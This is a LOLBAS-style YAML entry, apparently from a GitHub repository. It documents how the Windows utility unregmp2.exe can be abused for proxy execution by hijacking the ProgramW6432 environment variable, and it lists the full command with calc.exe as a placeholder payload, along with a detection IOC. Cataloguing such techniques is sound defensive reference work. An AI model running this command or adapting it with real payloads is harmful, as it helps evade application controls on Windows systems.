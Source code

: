 ```yaml
---
Name: Unregmp2.exe
Description: Microsoft Windows Media Player Setup Utility
Author: 'Wade Hickey'
Created: 2021-12-06
Commands:
  - Command: rmdir %temp%\lolbin /s /q 2>nul & mkdir "%temp%\lolbin\Windows Media Player" & copy C:\Windows\System32\calc.exe "%temp%\lolbin\Windows Media Player\wmpnscfg.exe" >nul && cmd /V /C "set "ProgramW6432=%temp%\lolbin" && unregmp2.exe /HideWMP"
    Description: Allows an attacker to copy a target binary to a controlled directory and modify the 'ProgramW6432' environment variable to point to that controlled directory, then execute 'unregmp2.exe' with argument '/HideWMP' which will spawn a process at the hijacked path '%ProgramW6432%\wmpnscfg.exe'.
    Usecase: Proxy execution of binary
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\Windows\System32\unregmp2.exe
  - Path: C:\Windows\SysWOW64\unregmp2.exe
Detection:
  - IOC: Low-prevalence binaries, with filename 'wmpnscfg.exe', spawned as child-processes of `unregmp2.exe /HideWMP`
Resources:
  - Link: https://twitter.com/notwhickey/status/1466588365336293385
Acknowledgement:
  - Person: Wade Hickey
    Handle: '@notwhickey'
---
```

